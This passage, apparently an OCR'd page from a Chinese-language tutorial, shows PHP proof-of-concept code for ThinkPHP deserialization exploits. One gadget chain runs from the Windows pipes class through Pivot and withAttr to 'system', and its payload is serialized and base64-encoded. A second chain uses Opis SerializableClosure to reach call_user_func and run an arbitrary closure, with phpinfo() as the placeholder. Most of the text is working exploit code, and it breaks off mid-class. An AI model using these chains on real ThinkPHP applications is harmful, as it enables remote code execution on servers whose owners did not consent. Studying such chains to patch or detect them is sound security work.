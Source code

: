```php
        $this->withAttr = ['hello'=> 'system'];
    }
}

/*step2*/
namespace think\process\pipes;
use think\model\Pivot;

abstract class Pipes{}
class Windows extends Pipes{
    private $files = [];
    public function __construct(){
        $this->files = new Pivot();
    }
}

/*step1*/
echo serialize(new Windows());
echo PHP_EOL;
echo PHP_EOL;
echo base64_encode(serialize(new Windows()));

```

- 闭包函数/匿名函数

\Opis\Closure是thinkphp自带的函数，是可用于序列化匿名函数，使得匿名函数同样可以进行序列化操作。其中在\__invoke()中有call_user_func函数，并且`call_user_func_array($this->closure, func_get_args());`。

序列化一个匿名函数，然后利用`$closure($value, $this->data)触发SerializableClosure.php的__invoke，从而导致call_user_func执行我们自定义的匿名函数达到RCE效果。

```php
<?php

namespace think\model\concern;
trait Attribute{
    private $data = [];
    private $withAttr = [];
}
trait Conversion{
    private $append = [];
}
trait RelationShip{
    private $relation = [];
}

namespace think;

abstract class Model{
    use model\concern\Attribute;
    use model\concern\Conversion;
    use model\concern\RealtionShip;
}

namespace think\model;
require __DIR__.'/vendor/autoload.php';
use Opis\Closure\SerializableClosure;//引入tp框架自带的闭包函数序列化类

class Pivot extends Model{
    public function __construct(){
        $this->append = ['hello' => '1'];
        $this->withAttr = ['hello' => new SerializableClosure(function(){phpinfo();})];
        //源代码想实现闭包函数，由此灵感：写一个闭包函数，但需要触发这个闭包函数可以通过SerializableClosure序列化后在传入的时候触发invoke就能执行闭包函数
        $this->data = ['hello' => ''];
```